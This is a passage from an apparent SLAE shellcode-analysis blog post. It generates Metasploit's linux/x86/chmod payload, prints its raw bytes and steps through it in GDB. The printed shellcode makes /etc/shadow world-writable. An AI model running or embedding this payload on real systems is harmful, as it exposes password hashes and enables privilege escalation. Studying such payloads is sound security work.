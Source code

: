 ```
00000021  58                pop eax
00000022  CD80              int 0x80
```

Very small shellcode here and not complex at all. Once again there is a CALL method followed by garbage instructions, just as we saw in the adduser payload. Let's generate the shellcode for this and put it in our C wrapper for analyzing with GDB. 

```
root@kali:~/SLAE# msfvenom -p linux/x86/chmod -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 36 bytes
Final size of c file: 177 bytes
unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
"\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
"\x80\x6a\x01\x58\xcd\x80";

root@kali:~/SLAE# vim chmod.c 
root@kali:~/SLAE# gcc chmod.c -o chmod -fno-stack-protector -z execstack
```

We'll first set a breakpoint on the start of our shellcode and run.

```
root@kali:~/SLAE# gdb -q chmod
Reading symbols from chmod...(no debugging symbols found)...done.
gdb-peda$ break *&code
Breakpoint 1 at 0x2040
gdb-peda$ r
Starting program: /root/SLAE/chmod 
Shellcode Length:  7

[----------------------------------registers-----------------------------------]
EAX: 0x402040 --> 0x580f6a99 
EBX: 0x402000 --> 0x1efc 
ECX: 0x15 
EDX: 0xb7fa4870 --> 0x0 
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff36c --> 0x40059d (<main+80>:	mov    eax,0x0)
EIP: 0x402040 --> 0x580f6a99
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40203a:	add    BYTE PTR [eax],al
   0x40203c:	add    BYTE PTR [eax],al
   0x40203e:	add    BYTE PTR [eax],al
=> 0x402040 <code>:	cdq    
   0x402041 <code+1>:	push   0xf
   0x402043 <code+3>:	pop    eax
   0x402044 <code+4>:	push   edx
   0x402045 <code+5>:	call   0x402056 <code+22>
[------------------------------------stack-------------------------------------]
0000| 0xbffff36c --> 0x40059d (<main+80>:	mov    eax,0x0)
0004| 0xbffff370 --> 0x1 
0008| 0xbffff374 --> 0xbffff434 --> 0xbffff5c6 ("/root/SLAE/chmod")
0012| 0xbffff378 --> 0xbffff43c --> 0xbffff5d7 ("LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...)
0016| 0xbffff37c --> 0x402040 --> 0x580f6a99 
0020| 0xbffff380 --> 0xbffff3a0 --> 0x1 
0024| 0xbffff384 --> 0x0 
```
